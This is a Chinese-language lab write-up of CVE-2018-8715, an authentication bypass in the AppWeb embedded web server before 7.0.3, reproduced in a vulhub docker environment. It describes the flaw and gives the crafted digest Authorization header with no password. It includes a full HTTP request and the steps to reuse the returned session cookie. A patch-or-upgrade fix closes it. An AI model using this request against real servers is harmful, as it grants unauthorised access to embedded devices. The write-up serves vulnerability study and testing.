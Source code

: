 # AppWeb认证绕过漏洞

## 漏洞编号

```
CVE-2018-8715
```



## 漏洞描述

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。

使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。



AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证



7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为null（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。



## 影响范围

7.0.3之前的版本



## 利用条件

利用该漏洞需要知道已经存在的用户名



## 指纹信息

```
WWW-Authenticate: Digest
```



## 相关工具

[Cookie-Editor - Microsoft Edge Addons](https://microsoftedge.microsoft.com/addons/detail/cookieeditor/neaplmfkghagebokkhpjpoebhdledlfi)



## 环境配置

vulhub

```
docker-compose up -d
```

![image-20250411134056851](./assets/image-20250411134056851.png)



## 漏洞复现

访问192.168.1.15:8080

![image-20250411134159727](./assets/image-20250411134159727.png)



由于利用该条件需要知道已经存在的用户名，而当前环境下用户名为admin

抓包，构造请求头

```
Authorization: Digest username=admin
```

```
GET / HTTP/1.1
Host: 192.168.1.15:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Authorization: Digest username=admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

![image-20250411140238074](./assets/image-20250411140238074.png)

因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含了一个session



然后我们可以设置这个session到浏览器，即可正常访问需要认证的页面

利用插件EditThisCookie，将cookie值写入到网站

![image-20250411140424033](./assets/image-20250411140424033.png)

保存后刷新页面

![image-20250411140436168](./assets/image-20250411140436168.png)

成功绕过验证，进入页面



## 修复方案

- 打补丁

- 升级到最新版本